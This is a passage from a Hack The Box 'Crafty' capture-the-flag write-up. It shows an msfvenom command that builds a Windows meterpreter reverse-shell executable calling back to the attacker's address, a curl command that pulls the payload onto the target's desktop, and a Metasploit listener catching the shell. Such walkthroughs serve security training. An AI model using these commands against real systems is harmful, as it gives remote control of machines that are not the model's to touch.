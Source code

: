```sh
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.86 LPORT=4444 -f exe > tnt.exe
```

To transfer the payload, navigate to the current user's (svc_minecraft) desktop and use the following command:

```sh
curl http://10.10.14.86:8000/tnt.exe -o tnt.exe
```

![htb-crafty-10.png](/assets/posts/htb-crafty/htb-crafty-10.png)

I then used multi/handler in Metasploit as can be seen below to start a listener:

![htb-crafty-11.png](/assets/posts/htb-crafty/htb-crafty-11.png)

Back on the shell we have for the target machine, I executed the payload:

![htb-crafty-12.png](/assets/posts/htb-crafty/htb-crafty-12.png)

As can be seen in the screenshot below, we now have a meterpreter shell:

![htb-crafty-13.png](/assets/posts/htb-crafty/htb-crafty-13.png)
